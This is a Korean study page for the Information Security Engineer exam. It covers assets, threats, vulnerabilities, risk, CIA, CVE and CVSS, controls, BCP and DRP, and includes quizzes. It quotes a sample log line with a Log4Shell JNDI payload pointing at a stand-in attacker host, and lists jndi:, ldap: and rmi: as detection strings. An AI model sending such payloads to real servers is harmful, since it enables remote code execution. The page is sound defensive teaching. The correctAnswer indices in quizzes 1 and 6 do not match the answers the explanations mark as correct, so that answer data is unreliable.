

<Callout type="info">
  **이번 문서의 목표:** 자산·위협·취약점·위험의 관계와 CIA(기밀성·무결성·가용성) 목표를 CVE·CVSS 같은 실제 취약점 관리 체계와 실제 침해사고 사례로 재확인하고, 정보보안기사 필기 5과목(시스템보안·네트워크보안·애플리케이션보안·정보보안일반·정보보안관리 및 법규)이 이 개념 지도의 어느 구역을 맡는지 구분해, 이후 편들이 전체 지도의 어디쯤 있는지 스스로 찾을 수 있게 한다.
</Callout>

## 왜 이 지도를 먼저 그리는가

> **쉽게 말하면**: 시험은 5과목으로 나뉘어 있지만, 실제 사고 하나에는 5과목이 동시에 얽혀 있다.

정보보안기사 필기는 시스템보안·네트워크보안·애플리케이션보안·정보보안일반·정보보안관리 및 법규 다섯 과목으로 나뉘어 과목별 20문항씩 출제된다. 하지만 실제 침해사고는 이렇게 깔끔하게 나뉘지 않는다. 예를 들어 랜섬웨어 감염 사고 하나에도 서버 파일이 암호화되는 문제(시스템보안), 감염이 내부망으로 퍼지는 경로(네트워크보안), 암호화에 쓰인 키 관리 방식(정보보안일반), 개인정보가 유출되었을 때의 신고 의무(정보보안관리 및 법규)가 동시에 걸린다.

이 편은 자산(asset)·위협(threat)·취약점(vulnerability)·위험(risk)이라는 공통 언어와 CIA(기밀성·무결성·가용성)라는 공통 목표를 먼저 정리해서, 뒤에 나올 5과목 25편을 "서로 무관한 다섯 과목"이 아니라 "하나의 지도 위에서 서로 다른 구역을 확대해서 보는 것"으로 읽을 수 있게 한다. 이 사이트의 독학사 3단계 정보보호 과목을 먼저 읽었다면 자산·위협·취약점·위험·CIA의 정의 자체는 복습이겠지만, 이 편에서 그 개념을 실제 CVE(취약점 식별번호)·CVSS(위험도 점수)·실제 침해사고 로그로 다시 확인하는 부분은 새로운 내용이다. 안 읽었어도 이 편만으로 완결되도록 정의부터 다시 잡는다.

## 자산·위협·취약점·위험: 정의와 실무 확인 수단

> **쉽게 말하면**: 넷 다 "위험하다"는 말을 쪼갠 조각이고, 실무에서는 각 조각마다 확인하는 도구가 따로 있다.

| 개념 | 정의 | 실무에서 확인하는 수단 |
|------|------|------------------------|
| 자산(asset) | 조직이 보호할 가치가 있는 대상(서버, 데이터베이스, 소스코드, 인력, 평판 등) | 자산 목록(asset inventory), 구성관리 데이터베이스(CMDB, Configuration Management Database) |
| 위협(threat) | 자산에 손해를 끼칠 수 있는 잠재적 원인·사건 | 위협 인텔리전스(threat intelligence) 피드, 침입탐지시스템(IDS) 경보 |
| 취약점(vulnerability) | 위협이 파고들 수 있는 자산의 약점 | CVE(Common Vulnerabilities and Exposures) 식별번호, 취약점 스캐너 리포트 |
| 위험(risk) | 위협이 취약점을 뚫고 자산에 피해를 입힐 가능성과 그 규모 | 위험평가서, CVSS(Common Vulnerability Scoring System) 점수 |

이 네 개념이 관념으로만 머물지 않도록, 실무에서는 취약점마다 전 세계 공통 번호를 매기고(CVE), 그 위험도를 표준화된 점수로 계산한다(CVSS). 이 두 체계를 실제 사례로 확인하면 자산·위협·취약점·위험의 관계가 훨씬 손에 잡힌다.

### CVE: 취약점에 붙는 전 세계 공통 이름표

**CVE**(Common Vulnerabilities and Exposures, 공통 취약점 및 노출)는 소프트웨어·하드웨어에서 발견된 취약점 하나하나에 `CVE-발견연도-일련번호` 형식의 고유 식별번호를 부여하는 체계다. 미국 MITRE사가 운영하며, 전 세계 보안 조직이 같은 취약점을 같은 번호로 부르게 해 준다. 예를 들어 2021년 12월 공개되어 전 세계 서버 운영자를 긴장시킨 **CVE-2021-44228**(별칭 로그4셸, Log4Shell)은 자바 로깅 라이브러리 Log4j의 원격코드실행 취약점이다.

이 사례를 앞서 정리한 네 개념으로 나눠 보면 다음과 같다.

- **자산**: Log4j 라이브러리를 사용하는 전 세계의 자바 기반 서버·애플리케이션.
- **취약점**: Log4j의 로그 메시지 조회(lookup) 기능이 입력값 검증 없이 `${jndi:...}` 형식의 문자열을 만나면 외부 서버의 코드를 불러와 실행하는 결함.
- **위협**: 공격자가 이 결함을 노려 로그로 남는 값(예: HTTP 요청의 User-Agent, 검색어)에 악성 문자열을 끼워 넣어 서버가 대신 실행하게 만드는 시도.
- **위험**: CVSS 3.1 기준 최고 등급인 **10.0점**. 인증 절차 없이 원격에서 실행 가능하고, 성공하면 기밀성·무결성·가용성이 모두 완전히 무너지기 때문이다.

실제 공격 시도는 웹 서버 접근 로그에 다음과 같은 흔적을 남긴다.

```
192.0.2.10 - - [10/Dec/2021:03:14:07 +0000] "GET /?x=${jndi:ldap://attacker.example/a} HTTP/1.1" 200 512
```

- `192.0.2.10`: 요청을 보낸 출발지 IP 주소(예시용 문서 대역).
- `${jndi:ldap://attacker.example/a}`: 정상 요청이라면 있을 이유가 없는 문자열. `jndi`(Java Naming and Directory Interface)로 시작해 외부 LDAP 서버를 조회하도록 지시하는 이 패턴이 Log4Shell 공격 시도의 대표적인 로그 지문(signature)이다.
- `200`: 서버가 요청을 정상 처리했다는 HTTP 상태 코드. 취약한 서버라면 이 요청 하나만으로 코드 실행까지 이어질 수 있다.

<Callout type="warning">
  로그에서 `jndi:`, `ldap:`, `rmi:` 같은 문자열이 요청 파라미터·User-Agent·Referer 값에 섞여 있다면 정상 트래픽이 아닐 가능성이 높다. 09편(서버 보안 운영)에서 이런 로그를 걸러내는 절차를 다시 다룬다.
</Callout>

### CVSS: 위험을 숫자 하나로 요약하기

**CVSS**(Common Vulnerability Scoring System, 공통 취약점 등급 시스템)는 국제 침해사고 대응 포럼인 FIRST가 관리하는 표준으로, 취약점의 위험도를 0.0에서 10.0 사이의 점수로 환산한다. 기본 점수(Base Score)는 다음 항목들을 조합해 계산한다.

| 평가 항목 | 의미 | Log4Shell(CVE-2021-44228)의 값 |
|-----------|------|----------------------------------|
| 공격 벡터(Attack Vector) | 공격자가 어디서 공격을 시작할 수 있는가 | 네트워크(원격, 인터넷 어디서든 가능) |
| 공격 복잡도(Attack Complexity) | 공격 성공에 특별한 조건이 필요한가 | 낮음(추가 조건 거의 없음) |
| 필요 권한(Privileges Required) | 공격 전에 계정 권한이 필요한가 | 없음 |
| 사용자 상호작용(User Interaction) | 피해자가 뭔가를 클릭·실행해야 하는가 | 불필요 |
| 영향 범위(Scope) | 공격이 취약한 구성요소를 넘어 다른 곳까지 미치는가 | 변경됨(다른 구성요소까지 영향) |
| 기밀성·무결성·가용성 영향 | CIA 각각이 얼마나 무너지는가 | 셋 다 높음(완전 침해) |

이 여섯 항목을 조합하면 CVSS 3.1 기준 10.0점, 가장 심각한 등급이 된다. 점수 자체를 암기할 필요는 없지만, "공격이 쉬울수록·권한이 필요 없을수록·CIA 피해가 클수록 점수가 높아진다"는 방향성은 위험(risk)이 자산 가치·위협 가능성·취약점 심각도를 종합한 개념이라는 정의와 정확히 일치한다.

## CIA 목표: 정의와 실제 사고로 확인하기

> **쉽게 말하면**: 정보보호가 지키려는 것은 결국 "비밀 유지"(C), "내용 정확성"(I), "필요할 때 사용 가능"(A) 세 가지다.

| 목표 | 영어 | 정의 | 실제로 무너진 사례 |
|------|------|------|---------------------|
| 기밀성 | Confidentiality | 허가된 사람만 정보에 접근하게 하는 것 | 2017년 에퀴팩스(Equifax) 유출 — 아파치 스트럿츠(Apache Struts) 취약점(CVE-2017-5638)이 패치되지 않아 미국인 약 1억 4,700만 명의 개인정보가 유출됐다 |
| 무결성 | Integrity | 정보가 허가 없이 변경·훼손되지 않고 정확한 상태를 유지하는 것 | 2010년 스턱스넷(Stuxnet) — 이란 원심분리기 제어 시스템(PLC)의 코드를 변조해, 실제로는 설비를 파괴하면서도 감시 화면에는 정상 수치가 표시되게 조작했다 |
| 가용성 | Availability | 필요할 때 정당한 사용자가 지연 없이 사용할 수 있는 것 | 2022년 SK C&C 판교 데이터센터 화재 — 배터리 화재로 데이터센터 전원이 끊기며 카카오 관련 서비스가 장시간 먹통이 됐다 |

이 세 사례를 다시 자산·위협·취약점·위험 언어로 옮기면, 에퀴팩스 사례의 취약점은 CVE 번호가 붙은 소프트웨어 결함(CVE-2017-5638)이었고, 판교 화재 사례의 취약점은 데이터센터 이중화·백업 전원 체계의 허점이었다. 같은 CIA 침해라도 원인이 되는 취약점의 종류(코드 결함 vs 물리적 인프라 허점)가 전혀 다르다는 점이, 뒤에 나올 1과목(시스템·서버 실무)과 2과목(네트워크 인프라)이 서로 다른 각도에서 필요한 이유다.

### CIA를 보조하는 확장 목표

CIA 세 목표만으로는 설명되지 않는 성질이 있어, 출제기준은 다음 세 가지를 함께 다룬다.

- **인증(authentication)**: 통신·접근 상대방의 신원이 진짜인지 확인하는 성질. 4과목(21편)에서 사용자·메시지·디바이스·생체 인증을 깊이 다룬다.
- **부인방지(non-repudiation)**: 어떤 행위를 한 사람이 나중에 "나는 안 했다"고 부인하지 못하게 만드는 성질. 전자서명(24편)이 대표적 구현 기술이다.
- **책임추적성(accountability)**: 시스템에서 발생한 행위를 사후에 누가 했는지 추적할 수 있는 성질. 로그 기록(09편)과 직결된다.

### 가용성과 BCP·DRP

가용성과 밀접한 개념으로 **업무연속성계획**(Business Continuity Plan, BCP, 재해·사고가 발생해도 핵심 업무를 중단 없이 지속하거나 최단 시간에 복구하기 위한 계획)이 있다. 앞서 든 판교 데이터센터 화재는 BCP·DRP(Disaster Recovery Plan, 재해복구계획, IT 시스템 복구에 초점을 맞춘 BCP의 하위 계획) 관점에서 자주 인용되는 사례다. 데이터센터 하나에 서비스가 집중되어 있으면, 그 한 곳의 물리적 사고가 곧바로 전체 서비스 중단으로 이어진다는 점을 이 사고가 실제로 보여줬다. 26~27편(정보보호 거버넌스·대책 구현)에서 이 개념을 조직 운영 절차로 다시 다룬다.

<Callout type="warning">
  BCP와 DRP를 동의어로 혼동하지 않는다. DRP는 IT 시스템 복구 절차이고, BCP는 대체 사무실·인력 재배치·협력업체 소통까지 아우르는 상위 계획이다.
</Callout>

## 통제(control): 위험을 줄이는 실제 수단

> **쉽게 말하면**: 위험을 줄이는 방법은 "규정으로"(관리적), "기술로"(기술적), "물리적으로"(물리적) 세 갈래이며, 실무에서는 각각 구체적인 설정과 문서로 나타난다.

| 분류 | 정의 | 실무 예시 |
|------|------|-----------|
| 관리적 통제 | 정책·지침·절차·교육으로 사람의 행동을 규율 | 정보보호 정책 문서, ISMS-P 인증 심사 항목, 접근권한 신청·승인 절차 |
| 기술적 통제 | 소프트웨어·하드웨어로 구현 | 방화벽 규칙, 침입탐지시스템(IDS), 암호화, 접근통제 목록 |
| 물리적 통제 | 물리적 접근·환경 피해를 제한 | 서버실 출입카드 로그, CCTV, 항온항습 장치 |

기술적 통제가 실제로 어떤 모습인지, 리눅스 방화벽 도구인 `iptables`의 간단한 규칙 두 줄로 확인해 보자.

```
iptables -A INPUT -p tcp --dport 22 -s 10.0.0.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j DROP
```

- 첫 번째 줄: 22번 포트(SSH)로 들어오는 트래픽 중, 출발지 IP가 `10.0.0.0/24`(사내망 대역) 안에 있는 것만 허용(ACCEPT)한다.
- 두 번째 줄: 그 외 출발지에서 오는 22번 포트 트래픽은 모두 버린다(DROP).

이 두 줄은 "SSH 원격 접속은 사내망에서만 허용한다"는 관리적 통제(정책)를, 실제로 서버가 지키게 만드는 기술적 통제다. 관리적 통제(정책 문서)만 있고 이 설정이 없다면, 정책은 종이 위의 약속에 불과하다. 반대로 이 설정만 있고 "왜 사내망만 허용하는가"에 대한 정책·승인 절차가 없다면, 나중에 예외를 넣거나 뺄 때 기준이 없어진다. 두 통제가 항상 짝을 이뤄야 하는 이유다. 통제를 작동 시점(예방·탐지·교정)으로 나누는 또 다른 분류는 26~27편에서 위험처리 전략과 함께 자세히 다룬다.

## 정보보안기사 필기 5과목이 이 지도에서 차지하는 위치

> **쉽게 말하면**: 5과목은 서로 다른 주제가 아니라, 같은 지도를 "어떤 자산", "어떤 통제", "어떤 CIA 목표" 기준으로 잘라 본 단면이다.



| 과목 | 주로 지키는 자산 | 주로 쓰는 통제 | 대표 위협·취약점 예시 |
|------|-------------------|-----------------|-------------------------|
| 1과목 시스템보안 | 서버·클라이언트 운영체제 | 기술적+관리적(계정·권한) | 권한상승, 루트킷, 랜섬웨어 |
| 2과목 네트워크보안 | 자산 간 통신 경로 | 기술적(방화벽·IDS/IPS) | 스니핑, 스푸핑, DDoS |
| 3과목 애플리케이션보안 | 웹·DB·메일 등 응용 서비스 | 기술적(시큐어코딩) | SQL 인젝션, XSS, 피싱 |
| 4과목 정보보안일반 | CIA를 구현하는 수학적 장치 자체(키·해시) | 기술적(암호 알고리즘) | 키 노출, 취약한 알고리즘 사용 |
| 5과목 정보보안관리 및 법규 | 조직의 위험 관리 체계 전체 | 관리적(정책·법령) | 관리 부실, 법 위반, 유출 신고 지연 |

이 표에서 4과목이 특이한 위치에 있다는 점을 눈여겨봐야 한다. 1~3과목이 "특정 자산을 어떻게 지킬 것인가"를 다룬다면, 4과목은 그 자산을 지키는 데 쓰이는 도구(암호·해시·전자서명) 자체의 원리를 다룬다. 이후 04편(암호수학 기초)이 4과목을 위한 별도 선행 편으로 마련된 이유이기도 하다. 5과목은 1~4과목에서 다룬 모든 기술적 통제가 실제로 작동하도록 조직 차원에서 정책·예산·인력·법적 근거를 부여하는 상위 층위다.

<Callout type="warning">
  "이 문제는 몇 과목 문제인가"를 겉모습만 보고 판단하지 않는다. 예를 들어 개인정보 유출 사고를 다루는 문제라도, 유출 원인(웹 취약점)을 묻는지, 유출 후 신고 의무(법규)를 묻는지에 따라 3과목 문제일 수도 5과목 문제일 수도 있다. 문두가 어떤 통제·과목의 관점을 요구하는지 먼저 확인한다.
</Callout>

## 자주 틀리는 점

- **위협과 취약점을 뒤바꿔 서술**: "Log4j 라이브러리의 결함"은 취약점이고, "그 결함을 노려 악성 문자열을 보내는 공격자"는 위협이다.
- **CVE와 CVSS를 같은 것으로 혼동**: CVE는 취약점에 붙는 식별번호(이름표)이고, CVSS는 그 취약점의 위험도를 계산한 점수(성적표)다. 같은 CVE 번호라도 시스템 구성에 따라 실제 위험도는 달라질 수 있다.
- **BCP와 DRP를 동일시**: DRP는 BCP의 IT 시스템 복구에 해당하는 하위 계획이다.
- **관리적·기술적·물리적 통제 중 하나만 있으면 충분하다고 오해**: `iptables` 규칙 예시처럼, 기술적 통제는 그것을 뒷받침하는 관리적 통제(정책·승인 절차)와 항상 짝을 이뤄야 한다.
- **5과목을 서로 무관한 별개 과목으로 암기**: 실제 사고는 여러 과목에 동시에 걸치며, 시험 문제도 종종 한 사고를 여러 각도(원인·전파·법적 의무)에서 나눠 묻는다.

## 핵심 정리

- 정보자산·위협·취약점·위험은 서로 다른 층위의 개념이며, 실무에서는 CVE(취약점 식별번호)·CVSS(위험도 점수)로 구체적인 숫자·번호로 관리된다.
- CIA(기밀성·무결성·가용성)는 정보보호의 기본 목표이며, 인증·부인방지·책임추적성이 이를 보조한다. 실제 사고(에퀴팩스·스턱스넷·판교 화재)는 각각 C·I·A 하나가 집중적으로 무너진 사례다.
- 통제는 관리적·기술적·물리적으로 분류되며, 실제로는 정책(관리적)과 방화벽 설정 같은 구체적 구현(기술적)이 짝을 이뤄야 한다.
- 정보보안기사 필기 5과목은 이 개념 지도를 자산 종류(시스템·네트워크·애플리케이션), 도구(암호), 조직 층위(관리·법규)로 잘라 본 단면이며, 실제 사고는 여러 과목에 동시에 걸친다.

## 마무리 복습

<Quiz
  questionNumber={1}
  question="다음 중 취약점(vulnerability)에 해당하는 것은?"
  options={['패치되지 않은 소프트웨어의 코드 결함', '그 결함을 노리는 공격자', '결함이 악용될 때 발생하는 손실 규모', '결함을 막기 위한 방화벽 규칙']}
  correctAnswer={1}
  explanation="취약점은 위협이 파고들 수 있는 자산 자체의 약점이며, 패치되지 않은 소프트웨어 결함이 대표적인 예다."
  optionExplanations={['정답. 코드 결함처럼 자산이 가진 약점 자체가 취약점이다.', '공격자는 위협에 해당한다.', '손실 규모는 위험 산정의 한 요소다.', '방화벽 규칙은 취약점을 줄이기 위한 통제 수단이다.']}
/>

<Quiz
  questionNumber={2}
  question="CVE와 CVSS의 관계를 가장 정확히 설명한 것은?"
  options={['둘 다 같은 위험도 점수 체계다', 'CVE는 취약점 식별번호이고 CVSS는 그 취약점의 위험도를 계산한 점수다', 'CVSS는 취약점에 이름을 붙이는 체계이고 CVE는 점수 체계다', '둘 다 통제(control)의 한 종류다']}
  correctAnswer={2}
  explanation="CVE는 취약점마다 부여되는 고유 식별번호이고, CVSS는 그 취약점의 위험도를 0.0에서 10.0 사이 점수로 계산하는 표준이다."
  optionExplanations={['CVE는 점수 체계가 아니라 식별번호 체계다.', '정답. CVE는 이름표, CVSS는 위험도 점수라는 역할 구분이 핵심이다.', 'CVE와 CVSS의 역할이 서로 바뀌어 서술되었다.', '둘 다 취약점 관리를 위한 체계이지 통제 수단 자체는 아니다.']}
/>

<Quiz
  questionNumber={3}
  question="2010년 이란 원심분리기 제어 시스템(PLC)의 코드를 변조해 정상 수치를 표시하면서 설비를 파괴한 스턱스넷(Stuxnet) 사례가 침해한 CIA 목표로 가장 적절한 것은?"
  options={['기밀성', '무결성', '가용성', '부인방지']}
  correctAnswer={2}
  explanation="제어 시스템의 코드와 표시값을 허가 없이 변조해 실제 상태와 다르게 보이게 만든 것은 정보의 정확성을 해치는 무결성 침해다."
  optionExplanations={['기밀성은 정보 유출과 관련되며 이 사례의 핵심은 정보 유출이 아니다.', '정답. 코드·표시값 변조는 정확한 상태 유지를 해치는 무결성 침해다.', '가용성은 서비스 중단과 관련되며 이 사례는 은밀한 변조가 핵심이다.', '부인방지는 행위를 나중에 부인하지 못하게 하는 성질로 이 사례와는 다른 개념이다.']}
/>

<Quiz
  questionNumber={4}
  question="SSH 접속을 사내망 대역에서만 허용하도록 방화벽 규칙을 설정하는 것은 어떤 통제에 해당하는가?"
  options={['물리적 통제', '기술적 통제', '관리적 통제', '재무적 통제']}
  correctAnswer={2}
  explanation="방화벽 규칙처럼 소프트웨어로 접근을 제한하는 수단은 기술적 통제에 해당한다."
  optionExplanations={['물리적 통제는 출입카드·CCTV처럼 물리적 접근을 제한하는 수단이다.', '정답. 방화벽 규칙은 소프트웨어로 구현되는 기술적 통제다.', '관리적 통제는 정책·절차·교육 등 사람의 행동을 규율하는 수단이다.', '재무적 통제는 이 개념 지도의 세 가지 통제 분류에 포함되지 않는다.']}
/>

<Quiz
  questionNumber={5}
  question="정보보안기사 필기 4과목(정보보안일반)이 다른 과목과 구별되는 위치로 가장 적절한 것은?"
  options={['특정 응용 서비스(웹·DB) 자산 보호에 집중한다', '자산 간 통신 경로 보호에 집중한다', 'CIA를 실제로 구현하는 수학적 도구(암호·해시·서명) 자체를 다룬다', '조직의 위험 관리 체계 전체를 총괄한다']}
  correctAnswer={3}
  explanation="4과목은 특정 자산이 아니라, 1~3과목에서 다루는 자산 보호에 공통으로 쓰이는 암호·해시·전자서명 같은 도구 자체의 원리를 다룬다."
  optionExplanations={['특정 응용 서비스 보호는 3과목 애플리케이션보안의 영역이다.', '통신 경로 보호는 2과목 네트워크보안의 영역이다.', '정답. 4과목은 CIA를 구현하는 수학적 도구 자체를 다룬다.', '조직 차원의 위험 관리 총괄은 5과목 정보보안관리 및 법규의 영역이다.']}
/>

<Quiz
  questionNumber={6}
  question="업무연속성계획(BCP)과 재해복구계획(DRP)의 관계로 옳은 것은?"
  options={['DRP가 BCP를 포함하는 상위 개념이다', 'BCP는 조직의 업무 지속 전체를 다루고 DRP는 그중 IT 시스템 복구에 초점을 맞춘 하위 계획이다', '둘은 완전히 동일한 개념이다', 'BCP는 기술적 통제이고 DRP는 관리적 통제다']}
  correctAnswer={2}
  explanation="BCP는 대체 사무실·인력 재배치 등 조직 전체의 업무 지속을 다루는 상위 계획이며, DRP는 그중 IT 시스템 복구 절차에 초점을 맞춘 하위 계획이다."
  optionExplanations={['상위·하위 관계가 반대로 서술되었다.', '정답. BCP가 상위 계획이고 DRP는 IT 복구에 초점을 맞춘 하위 계획이다.', '두 계획은 범위가 다른 별개의 개념이다.', 'BCP와 DRP는 통제의 적용 방식(관리적·기술적·물리적) 분류와는 다른 축의 개념이다.']}
/>

## 참고 자료

- [Q-Net(한국산업인력공단) - 정보보안기사 종목별 상세정보](https://www.q-net.or.kr/crf005.do?id=crf00503&jmCd=1325)
- [한국방송통신전파진흥원(cq.or.kr) - 정보보안기사 자격정보](https://www.cq.or.kr/qh_quagm01_020.do)
- [NVD(National Vulnerability Database) - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [FIRST - Common Vulnerability Scoring System(CVSS)](https://www.first.org/cvss/)
